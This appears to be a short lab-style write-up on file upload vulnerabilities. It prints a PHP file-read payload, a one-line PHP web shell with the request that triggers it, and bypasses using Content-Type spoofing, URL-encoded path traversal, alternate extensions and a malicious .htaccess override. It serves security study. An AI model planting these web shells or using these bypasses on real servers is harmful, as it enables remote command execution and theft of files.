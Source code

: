 # File upload vulnerabilities

To read contents of an arbitrary file:
```Php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Simple webshell:
```PHP
// exploit.php content:
<?php echo system($_GET['command']); ?>

// then do the following request:
GET /example/exploit.php?command=id HTTP/1.1
```

When sending your form inputs the browser will send a post request with Content-Type: application/x-www-form-url-encoded. But this cannot be enough for sending binary data like PDF files, etc. For that, Content-Type should be multipart/form-data.

## Web shell upload via Content-Type restriction bypass
Upload a php file
Just change Content-Type header value to image/jpeg or image/png
Boom!

## Web shell upload via path traversal

We first try to upload the file and see the response:
![[Pasted image 20220327214544.png]](https://github.com/s4nsec/s4nsec.github.io/blob/main/img/Pasted%20image%2020220327214544.png)

Now we try directory traversal to see if we can save the file to another directory:
![[Pasted image 20220327214701.png]]
We see that the server prevents our path traversal attempt by removing characters. 

Now we URL encode our input and try again:
![[Pasted image 20220327214828.png]]
BOOM! With a simple URL encode, we can bypass the restriction and save the file to /files directory!

## Insufficient blacklisting of dangerous file types
Sometimes servers block uploading of files with the extension .php, etc.
But we can simply bypass this by changing the extension to .php5, .shtml, etc.

## Overriding server configs
Usually servers have config files in which extensions to be executed are declared.
For a .php file to be executed by a client's request, a developer may add the following to /etc/apache2/apache2.conf:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php
```

Many servers will allow directory specific config files to override or to be added to the global ones. For example, in Apache, directory specific config files are loaded from .htaccess file.
Similarly, IIS server can be configured to do the same via web.config file:
```
<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Let's upload a .htaccess file with our own configuration to make a file with an extension not blocked by the server to be executed as php file.
.htaccess content:
```
AddType application/x-httpd-php .fun
```

Now, if we just change the extension of our php file to .fun, it will not be blocked, and will be uploaded. Then we can call it and have it executed by the server.
